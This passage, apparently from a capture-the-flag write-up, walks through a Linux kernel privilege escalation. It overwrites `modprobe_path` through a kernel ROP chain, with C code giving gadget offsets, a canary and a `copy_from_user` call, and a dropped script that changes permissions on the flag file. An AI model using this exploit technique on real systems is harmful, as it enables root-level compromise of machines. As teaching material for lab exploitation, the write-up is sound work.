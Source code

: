 ```c
	kfree(argv);
out:
	kmod_dup_request_announce(orig_module_name, -ENOMEM);
	return -ENOMEM;
}
```

By corrupting `modprobe_path` to point to any arbitrary script that we provide, we can execute any commands we want in root privileges.

Ultimately, what we can do is:

1. create a file `/tmp/xpl.sh` with contents `#!/bin/sh\nchmod 777 /flag.txt`
2. create a file `/tmp/broken` with contents `\xff\xff\xff\xff`
3. set modprobe_path to `/tmp/xpl.sh`
4. execute `/tmp/broken` which would trigger modprobe and set our flag file to be executable

### Crafting kROP chain

Most of the kROP chain is business as usual just like a userspace ROP chain.

We first extract the `vmlinux` binary from the `bzImage` using [this script](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux).

We can then obtain the gadgets using `ROPgadget --binary vmlinux > gadgets.txt` command.

```c
// gadgets
#define pop_rdi (kbase+0x1d675)
#define pop_rsi (kbase+0x6ff0c)
#define pop_rdx (kbase+0x7baf4a)

#define swapgs_iret (kbase+0x1001126)

// symbols
#define copy_from_user (kbase+0x6e5d00)
#define modprobe_path (kbase+0x208c500)


char new_path[] = "/tmp/xpl.sh\x00";
char payload[0x1000];
memset(payload, 0x41, 0x1000);
unsigned long* krop = (unsigned long*)&payload[0x40];
*krop++ = canary;
*krop++ = 0;

// copy_from_user(modprobe_path, new_path:="/tmp/xpl.sh\x00", strlen(new_path)+1)
*krop++ = pop_rdi;
*krop++ = modprobe_path;
*krop++ = pop_rsi;
*krop++ = (unsigned long)new_path;
*krop++ = pop_rdx;
*krop++ = strlen(new_path) + 1;
*krop++ = copy_from_user;
```
